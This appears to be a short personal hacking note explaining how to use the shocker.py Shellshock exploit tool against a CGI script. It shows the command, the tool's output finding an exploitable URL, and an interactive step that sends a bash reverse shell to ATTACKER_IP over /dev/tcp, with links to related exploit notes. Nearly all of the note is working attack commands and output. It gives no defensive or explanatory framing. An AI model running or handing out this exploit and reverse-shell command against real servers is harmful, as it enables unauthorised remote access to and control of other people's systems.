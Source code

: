 # shellshock python2 exploit reverse shell usage
```
python2 shocker.py -H $IP --cgi /cgi-bin/test/test.cgi

   .-. .            .
  (   )|            |
   `-. |--. .-.  .-.|.-. .-. .--.
  (   )|  |(   )(   |-.'(.-' |
   `-' '  `-`-'  `-''  `-`--''  v1.1

 Tom Watson, tom.watson@nccgroup.trust
 https://www.github.com/nccgroup/shocker

 Released under the GNU Affero General Public License
 (https://www.gnu.org/licenses/agpl-3.0.html)


[+] Single target '/cgi-bin/test/test.cgi' being used
[+] Checking connectivity with target...
[+] Target was reachable
[+] Looking for vulnerabilities on xxxxxxxxxxxxxx:80
[+] 1 potential target found, attempting exploits
[+] The following URLs appear to be exploitable:
  [1] http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Would you like to exploit further?
[>] Enter an URL number or 0 to exit: 1
[+] Entering interactive mode for http://xxxxxxxxxxxxxx:80/cgi-bin/test/test.cgi
[+] Enter commands (e.g. /bin/cat /etc/passwd) or 'quit'
  > /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/80 0>&1'
```
` zet/20221003150499/README.md `

# Related

- [20221008221822](/zet/20221008221822/README.md) www - the web
- [20221003150500](/zet/20221003150500/README.md) shellshock python2 exploit
- ~/kb/hacking/exploit/shellshock-exploit.md

Tags:

    #hacking #shellshock 
